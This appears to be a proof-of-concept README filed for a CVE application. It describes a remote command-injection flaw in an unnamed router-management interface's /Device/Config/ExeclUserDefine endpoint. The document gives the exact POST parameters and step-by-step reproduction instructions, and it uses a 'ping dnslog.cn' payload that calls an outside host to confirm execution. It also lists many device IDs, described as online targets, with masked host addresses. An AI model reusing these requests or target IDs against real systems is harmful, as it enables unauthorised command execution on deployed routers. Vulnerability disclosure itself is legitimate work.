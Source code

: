 

# CVE-Poc-1



 

##  Readme

   Only for the CVE application--by Zjackky



​                         

## Vulnerability description



Interface address     /Device/Config/ExeclUserDefine  



Interface parameter  groupId=&deviceCode=02180011&strCommand=ls&type=1



Request mode POST



Parameter analysis DeviceCode (Router device ID) StrCommand (Code to execute) 



### Start the demonstration

Tips: Hello, here I provide the device ID so that you can reproduce it quickly. Some devices are not online, so please use the ID I gave when you reproduce them. I have tested and reviewed them hard



Case 1 : http://xxxxx:8xxxx 

Router device ID:

02180102

02180011

02180021

02180027

02180142

02180168

02180170

02190007

02190091



1. Use Postman to send packets
2. POST http://xxxxx:xxxxx /Device/Config/ExeclUserDefine 
3. Params   groupId=&deviceCode=02180102&strCommand=ping dnslog.cn &type=1
4. The outgoing command is dnslog. After the command is executed, you can receive dnslog messages
5. After executing the command, you can receive a dnslog message, which means that the command can be successfully executed



![image-20230530141315701.png](https://s2.loli.net/2023/05/30/JfU3TiXsjznaeAc.png)







Case 2：http://xxxxx0:xxxxxx1

Router device ID:

20010010

2106260520002 

2107042520002

2106260120002

2107042320002

 Just do the same thing as in case 1

 

Case 3： http://xxxxx:xxxxxx/

Router device ID:

10031

10072

10004

20031

20072

10001

  Just do the same thing as in case 1



 

